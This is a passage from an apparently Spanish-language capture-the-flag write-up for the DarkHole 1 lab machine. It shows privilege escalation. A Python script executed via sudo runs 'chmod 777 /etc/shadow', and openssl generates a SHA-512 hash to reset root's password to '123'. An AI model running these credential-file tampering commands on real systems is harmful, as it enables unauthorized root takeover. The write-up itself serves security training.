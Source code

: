 Puedo establecer una clave en el fichero /etc/shadow para cualquier usuario de la maquina

Comandos:

```sh
#file.py 
import os;
os.system('chmod 777 /etc/shadow')
```

![alt text](../assets/images/darkhole1/image-54.png)

Ahora ejecuto file.py como usuario root

```sh
sudo -u root /usr/bin/python3 /home/john/file.py
```

Compruebo que el fichero `/etc/shadow` ahora tiene permisos completos.

![alt text](../assets/images/darkhole1/image-55.png)

A continuacion genero un hash de contraseña de tipo SHA-512 para cambiarle la contraseña al usuario root por la clave `123`

Comando:

```sh
openssl passwd -6
```

![alt text](../assets/images/darkhole1/image-56.png)
